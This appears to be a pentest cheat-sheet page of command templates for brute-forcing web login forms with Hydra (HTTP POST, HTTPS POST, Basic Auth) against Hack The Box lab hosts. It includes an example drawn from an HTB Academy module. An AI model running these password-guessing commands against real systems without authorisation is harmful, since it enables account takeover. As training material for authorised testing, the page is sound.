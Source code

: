 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Hydra

## Usage

{% tabs %}
{% tab title="HTTP" %}
{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}
{% endtab %}

{% tab title="HTTPS" %}
{% code overflow="wrap" %}
```bash
hydra -L users -P passwords streamio.htb https-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="alert alert-danger">' -I
```
{% endcode %}
{% endtab %}

{% tab title="Basic Auth" %}
{% code overflow="wrap" %}
```bash
$ hydra -L tiny_file_manager_users -P /usr/share/wordlists/rockyou.txt 192.168.221.201 http-get '/A=BASIC:F=401 Unauthorized'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

We find an HTTP login form (Figure 1) and select something unique from its source code (Figure 2).

<figure><img src="../../.gitbook/assets/hydra_http_login_form.png" alt=""><figcaption><p>Figure 1: An HTTP login form.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/hydra_http_login_form_source.png" alt=""><figcaption><p>Figure 2: A unique string within the source code of a failed login attempt.</p></figcaption></figure>

Then, we pass this information to `hydra` and perform the BFA[^1] against the login form (Figure 3).

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}

<figure><img src="../../.gitbook/assets/hydra_http_bfa.png" alt=""><figcaption><p>Figure 3: Performing a BFA on an HTTP login form.</p></figcaption></figure>

[^1]: Brute Force Attack
